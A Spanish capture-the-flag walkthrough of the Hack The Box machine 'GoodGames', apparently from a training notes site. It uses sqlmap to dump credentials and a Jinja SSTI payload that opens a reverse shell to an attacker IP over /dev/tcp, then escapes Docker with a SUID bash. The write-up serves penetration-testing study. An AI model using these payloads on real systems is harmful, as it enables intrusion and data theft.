 ```yaml
---
description: '✍️ Autor: TheCyberGeek🔍 Dificultad: Fácil 📅 Fecha de creación: 24/01/2022'
---
```


# GoodGames

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.130
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1278).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.130
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1279).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 80 (HTTP):** Este puerto generalmente está asociado a servidores web. Si el servicio está ejecutando un servidor web como Apache, Nginx o IIS, es recomendable buscar vulnerabilidades conocidas relacionadas con el software y versiones en uso (por ejemplo, a través de CVEs). Además, es importante realizar pruebas de seguridad en las aplicaciones web que se ejecutan en el servidor, como inyecciones SQL, Cross-Site Scripting (XSS) o vulnerabilidades de escalada de privilegios.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 10.10.11.130
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1280).png" alt=""><figcaption></figcaption></figure>

Accedemos al puerto 80.

<figure><img src="../../.gitbook/assets/image (1281).png" alt=""><figcaption></figcaption></figure>

Es una página de Juegos y tiene un Login vamos a usar entonces SQLMap.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-22 100654.png" alt=""><figcaption></figcaption></figure>

Conocer las bases de datos.

```
sqlmap -u http://10.10.11.130 --forms --dbs --batch
```

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Conocer las tablas de la base de datos objetivo.

```
sqlmap -u http://10.10.11.130 --forms -D main --tables --batch
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Conocer las columnas de la tabla de la bases de datos objetivo.

```
sqlmap -u http://10.10.11.130 --forms -D main -T user --columns --batch
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Conocer la información que hay en esas columnas.

```bash
sqlmap -u http://10.10.11.130 --forms -D main -T user -C name,id,email,password --dump --batch
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado unas credenciales aunque la contraseña al ser un hash la crackeamos.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Después de analizar el sitio web del perfil, encontramos un símbolo de configuración que nos redirige a una URL con un dominio diferente. Como primer paso, registraremos este nuevo dominio en el archivo `/etc/hosts`.

```bash
echo "10.10.11.130 internal-administration.goodgames.htb" >> /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con **Wappalyzer** se ejecuta **Python** por lo que parece una vulnerabilidad **SSTI**. Para ello realizamos la comprobación básica.

```
{{ 7 * 7 }}
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es vulnerable a **SSTI** por lo que realizamos un payload que contiene una Reverse Shell.

```
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"').read() }}
```

Nos ponemos en escucha.

```bash
nc -nlvp 4444
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

somos **root.** No somos root de manera oficial.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

La interfaz de red está conectada al adaptador de red interna con la dirección `172.19.0.2/16`, lo que nos permite comunicarnos con la red interna desde nuestra máquina de ataque a través de la red comprometida.

Para descubrir los hosts en la red interna, utilizamos el siguiente comando en una sola línea para realizar un escaneo de barrido:

```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" &); done;
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Una vez identificado un objetivo, realizamos un escaneo de puertos con el siguiente comando:

```bash
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comencé a buscar credenciales de SSH en la máquina y finalmente encontré la carpeta de un usuario dentro del directorio `/home`. Sin embargo, no encontré a `augustus` en el archivo `/etc/passwd`.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que el puerto 22 y 80 están abiertos, por lo que intentamos conectarnos por SSH con el usuario augustus utilizando la contraseña que habíamos encontrado previamente (superadministrator).

```bash
ssh augustus@172.19.0.1
whoami
augustus
```

Como el directorio home del usuario augustus está montado en el contenedor **Docker** y tenemos acceso como usuario **root**, podemos trasladar un binario con permisos **SUID** al home de **augustus** para escalar privilegios a root en el host.

```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls
bash  user.txt

root@3a453ab39d3d:/home/augustus chown root:root /home/augustus/bash  
root@3a453ab39d3d:/home/augustus chmod +s /home/augustus/bash

augustus@GoodGames:~$ ./bash -p
bash-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) egid=0(root) groups=0(root),1000(augustus)
bash-5.1# whoami
root
```

Ahora que hemos logrado elevar nuestros privilegios a **root** en la máquina víctima, podemos proceder a leer la flag del usuario **root**.

<figure><img src="../../.gitbook/assets/image (1283).png" alt=""><figcaption></figcaption></figure>

